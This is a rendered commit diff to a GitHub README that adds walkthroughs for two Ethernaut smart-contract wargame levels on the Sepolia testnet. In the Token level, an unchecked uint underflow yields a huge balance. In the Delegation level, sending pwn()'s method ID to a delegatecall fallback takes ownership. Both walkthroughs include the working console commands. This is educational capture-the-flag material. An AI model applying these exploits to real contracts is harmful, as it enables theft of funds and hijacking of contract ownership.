

Before and after one commit to RaulSanchezzt/projects, a Markdown page: Blockchain/OpenZeppelin - Ethernaut/README.md, the part around the change. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
🐬 Add Token & Delegation

````diff
--- a/Blockchain/OpenZeppelin - Ethernaut/README.md
+++ b/Blockchain/OpenZeppelin - Ethernaut/README.md
@@ -180,3 +180,60 @@ And now we are the **owner**:
 ```
 
 [Submit](https://sepolia.etherscan.io/tx/0x8ef00b350da3dfd038b951bdbbef343257d3512e693616ec9ee78564dbd33b5c) level instance to finish.
+
+## 5. Token
+
+First, [create](https://sepolia.etherscan.io/tx/0x0057b7a2bafc16e37bbb1162acc59b79b3cb303b5d395f7b83b1573384fc86e4) the [level instance](https://sepolia.etherscan.io/address/0x2fc1500ccd9f2d3baad615cdcb99b37d3f1c3460):
+
+> The goal of this level is for you to hack the basic token contract below. You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.
+
+In this contract we can see a simple **uint overflow problem** since there are no `SafeMath` checks. If we [pass](https://sepolia.etherscan.io/tx/0x376ba5d5f15eb96049020172b927b18620f313f5538031f51f3b83394819af98) any number larger than 20 to the **value** of the `transfer` it will result in the operation `20 - 21` which is equal to `UintMax`.
+
+```js
+> await contract.transfer("0x871D838738B2B745EAA37216Fc0360C94a319a20", 21)
+```
+
+Then, check the balance:
+
+```js
+> x = await contract.balanceOf(player);
+
+> x.toString();
+
+("115792089237316195423570985008687907853269984665640564039457584007913129639935");
+```
+
+[Submit](https://sepolia.etherscan.io/tx/0x1a97b40f18cd85b8acee1c3aed1c07684056357a1f806b6e254d64b5cb0ebceb) level instance to finish.
+
+## 6. Delegation
+
+First, [create](https://sepolia.etherscan.io/tx/0x64d7cd6f97979ae82e412c74587d223a9588b5d93e7acfec631ace067509a570) the [level instance](https://sepolia.etherscan.io/address/0xb19D92d3F73b0bbB570417f8971e9f129a4fb14F):
+
+> The goal of this level is for you to claim ownership of the instance you are given.
+> Things that might help:
+>
+> - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
+> - Fallback methods
+> - Method ids
+
+In this level, it's important how `DELEGATECALL` [works](https://solidity-by-example.org/delegatecall/). Once we understand, we need to know the **Method ID** of the function `pwn()`:
+
+```js
+> web3.eth.abi.encodeFunctionSignature("pwn()");
+'0xdd365b8b'
+```
+
+And now, let's create a new [transaction](https://sepolia.etherscan.io/tx/0x76b2416f77b1afd401e4a007e6cb91f5b396b4c252a28f878f834d103f522bb1) that goes to the `fallback` using the `CALLDATA` of `pwn()` to become the **owner**:
+
+```js
+> await web3.eth.sendTransaction({from:player, data:"0xdd365b8b", to:instance})
+```
+
+Check the owner then:
+
+```js
+> await contract.owner()
+'0xB8b74Dc6bce6B16dcd634aB94600a3c9967E6F0D'
+```
+
+We're the owner! [Submit](https://sepolia.etherscan.io/tx/0x83096032db4598b3df1e941ca72e355be3e5f4ae5c4cb7a31f66db80f36cfff8) level instance to finish.
````
